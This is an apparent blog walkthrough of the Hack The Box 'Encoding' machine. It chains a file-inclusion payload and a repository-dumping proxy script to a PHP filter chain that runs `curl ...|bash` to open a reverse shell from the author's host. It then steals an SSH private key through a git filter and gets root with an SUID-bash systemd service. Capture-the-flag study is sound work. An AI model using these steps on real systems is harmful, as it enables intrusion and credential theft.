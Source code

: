 ```yaml
---
title: "Hack The Box - Encoding [Medium]"
date: 2023-02-17T02:01:27+03:00
draft: false
description: 
---
```


This machine took me a couple of days due to its complexity and some minor stuff that were a hassle to get right.

You will find the following vulnerabilities:
	- [Local File Inclusion](https://book.hacktricks.xyz/pentesting-web/file-inclusion)
	- [Command Injection or RCE](https://book.hacktricks.xyz/pentesting-web/command-injection)

# Flag 1

I started by looking through the website to get some idea of its functionality. I saw that this is some sort of converter of data, like binary to hex and so on. But the interesting part was this:

>If required, you can specify a URL that will return data to be converted with the `file_url` parameter. This can be done for both string and integer convertions.

That quickly reminded me of local/remote file inclusion, and so I've tried it with the following payload:

```python
json_data = {
	'action': 'b64encode',
	'file_url' : 'file:///etc/passwd'
}
```

That gave me the contents of the `/etc/passwd` file encoded in base64, I used `base64 -d` to decode it. From there I saw another user `svc`.

I was also curious what's in the `/var/www/` directory, so I began enumerating the directory.

I ran `ffuf` on the main website `haxtables.htb/FUZZ` also ran `ffuf` for subdomain discovery.

```
$ ffuf -w $disc_wc/raft-small-directories-lowercase.txt -u http://haxtables.htb/FUZZ

$ ffuf -w $disc_wc/common.txt -u http://haxtables.htb/ -H "Host: FUZZ.haxtables.htb" -fs 1999
```

With those I found `api, image` subdomains, so I inspected them via the LFI vulnerability `/var/www/image/index.php` to check whether this application uses some kind of database or eventually some useful things. I found that `image` domain contains a git repository (through `git_status, git_log, git_commit` functions in `/var/www/image/index.php -> uitls.php`). This led me to believe that I could use that to gain user privileges later on. I decided to dump the repository and bear with me here I did it in the most ghetto way possible, through a local server that acted as a proxy for `gitdumper.sh`

```python
import requests
import json
from flask import Flask
import base64


app = Flask(__name__)


@app.route('/<path:filepath>')
def index(filepath):
    json_data = {
        'action': 'b64encode',
        'file_url' : "file://" + "/var/www/image/" + filepath
    }
    response = requests.post('http://api.haxtables.htb/v3/tools/string/index.php', json=json_data)
    d = json.loads(response.text.strip())
    res = base64.b64decode(d["data"])
    return res
```

```
$ gitdumper.sh http://localhost:5000/.git/ ./dump_repo
```

Then I used the `git ls-files` to figure what other files are in the folder.

```
$ git ls-files
actions/action_handler.php
actions/image2pdf.php
assets/img/forestbridge.jpg
includes/coming_soon.html
index.php
scripts/git-commit.sh
utils.php
```

I saw the `actions/action_handler.php` source code by using the LFI vulnerability.

```php
<?php
include_once 'utils.php';
if (isset($_GET['page'])) {
    $page = $_GET['page'];
    include($page); # <-- BruhMoment
} else {
    echo jsonify(['message' => 'No page specified!']);
}
?>
```

It is pretty obvious that this code is vulnerable to LFI, and I can use it to gain a reverse shell through PHP Filters. But I can't access this page directly, so I can use the first LFI to execute this LFI to execute the PHP filters RCE... 

And this is me figuring out this after 2 days of trying...

![[Pasted image 20230218001326.png]]

I generated a payload with the [PHP filter chain generator](https://github.com/synacktiv/php_filter_chain_generator).

```
$ python3 php_filter_chain_generator.py --chain '<?= `curl http://myIp/rev_bash_norm.sh|bash` ;?>'
```

And I hosted a web server containing the `rev_bash_norm.sh`, I won't show the full monstrosity of the generated filter request but in the end it looked like this:

```http
POST /v3/tools/string/index.php HTTP/1.1
Host: api.haxtables.htb
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/108.0.5359.125 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close
Content-Type: application/json
Content-Length: 12920

{
    "action": "b64encode",
    "file_url" : "email@image.haxtables.htb/actions/action_handler.php?page=php://filter/<bruhmoment>"
}
```

Whenever executed, this request will spawn a reverse shell.

The `www-data` to `svc(user)` was honestly too much for me, and I turned to some write-ups. 

> The next section is what I've tried and failed, feel free to skip it.

`<i-tried-this>`
I was pretty sure that it has something to do with the `git` scripts and I only had `rwxr-xr-x` permissions of the `.git` folder, so I've tried to simulate file edit by using the dumped repository and change all the files in the `.git` directory on the server. 

And that was kinda the right approach, but I didn't notice the `ssh` keys that I needed to retrieve, so I was hard stuck at this, and I went to some write-ups. 

`</i-tried-this>`

Check [gatogamer1155](https://gatogamer1155.github.io/htb/encoding/)'s write-up for gaining access to the user and retrieve the first flag.

TLDR: 
* Creates an executable file `/tmp/readkey` with a content that reads the 
`~/.ssh/id_rsa` file and saves it to file. 
- Creates a git attributes file with a new filter called indent:  `'*.php filter=indent'` 
- Sets the Git configuration `filter.indent.clean` to the command `/tmp/readkey`. This tells Git to apply the `indent` filter to files ending in `.php` and to use the `/tmp/readkey` command to process the filter.
- Execute the `/var/www/image/scripts/git-commit.sh` with `sudo -u svc`
- The filter is then applied, and you can read the private key file.

> **NOTE:** Make sure that whenever you save the private key on your machine add an empty line at the end of the file otherwise you will get an error!

After logging with the `svc` user, you can read the first flag.

# Flag 2

Honestly, this was too easy, but I didn't mind it since I spent too much time doing this box. 

Executing the `sudo -l` would give you the executables that you can execute as root.

```
(root) NOPASSWD: /usr/bin/systemctl restart *
```

I had to create a service that looks like that and place it under `/etc/systemd/system/syl.service`

```toml
[Service]
Type=simple
ExecStart=chmod +s /bin/bash
[Install]
WantedBy=multi-user.target
```

And simply execute:

```
$ sudo /usr/bin/systemctl restart syl
$ bash -p
bash-5.1# cat root/root.txt
. . .
```